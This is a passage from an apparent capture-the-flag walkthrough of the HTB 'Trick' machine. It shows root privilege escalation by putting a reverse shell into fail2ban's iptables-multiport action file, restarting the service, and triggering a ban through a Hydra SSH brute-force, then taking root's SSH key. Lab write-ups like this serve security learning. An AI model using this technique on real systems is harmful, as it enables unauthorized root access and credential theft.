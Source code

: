 5. Check if `sshd` ban is enabled
	![]({{ page.img_path }}Pasted%20image%2020220731053114.png)
	- `enabled`
6. Create a copy of `/etc/fail2ban/action.d/ip-tables/multiport.conf`
	```
	michael@trick:/etc/fail2ban/jail.d$ cp /etc/fail2ban/action.d/ip-tables/multiport.conf /tmp/multiport.conf
	```
7. Add our reverse shell to  `/tmp/multiport.conf`
	![]({{ page.img_path }}Pasted%20image%2020220731054343.png)
8. Start listener on Kali
9. Create script to replace our malicious file with the actual file
	```
	michael@trick:/tmp$ cat script.sh 
	rm /etc/fail2ban/action.d/iptables-multiport.conf
	cp /tmp/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
	michael@trick:/tmp$ ./script.sh 
	rm: remove write-protected regular file '/etc/fail2ban/action.d/iptables-multiport.conf'? yes
	michael@trick:/tmp$ 
	
	```
10. Restart `fail2ban`
	```
	michael@trick:/tmp$ sudo /etc/init.d/fail2ban restart
	[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
	
	```
11. Bruteforce SSH
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166]
	└─# hydra -e nsr -P /usr/share/wordlists/rockyou.txt ssh://10.10.11.166 -VI
	```
12. Root obtained
	![]({{ page.img_path }}Pasted%20image%2020220731054941.png)
13. Proceed to root, copy its `id_rsa` & SSH into root



